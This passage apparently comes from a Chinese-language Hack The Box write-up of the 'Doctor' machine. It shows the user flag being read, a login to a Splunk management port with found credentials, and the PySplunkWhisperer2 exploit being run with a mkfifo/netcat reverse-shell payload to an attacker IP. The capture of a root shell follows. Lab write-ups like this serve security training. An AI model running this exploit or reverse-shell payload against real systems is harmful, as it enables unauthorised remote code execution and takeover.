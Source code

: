 
拿到user flag
```
shaun@doctor:~$ cat user.txt
cat user.txt
cdec0fff1bd6278d..

```

## 回到8089端口服务

使用```shaun：Guitar123```登录web auth，可以成功登录


使用[这个exp](https://github.com/cnotin/SplunkWhisperer2/blob/master/PySplunkWhisperer2/PySplunkWhisperer2_remote.py)


```
┌──(root💀kali)-[~/htb/doctor]
└─# python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --lhost 10.10.16.4 --lport 443 --username shaun --password 'Guitar123' --payload "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 8089 >/tmp/f"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmp8dhv64n6.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.16.4:443/
10.10.10.209 - - [25/May/2022 06:14:42] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

```


收到root shell
```
┌──(root💀kali)-[~/htb/doctor]
└─# nc -lnvp 8089                                                                             1 ⨯
listening on [any] 8089 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.209] 50182
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
# cat /root/root.txt
99bb7d228d041..
# 

```

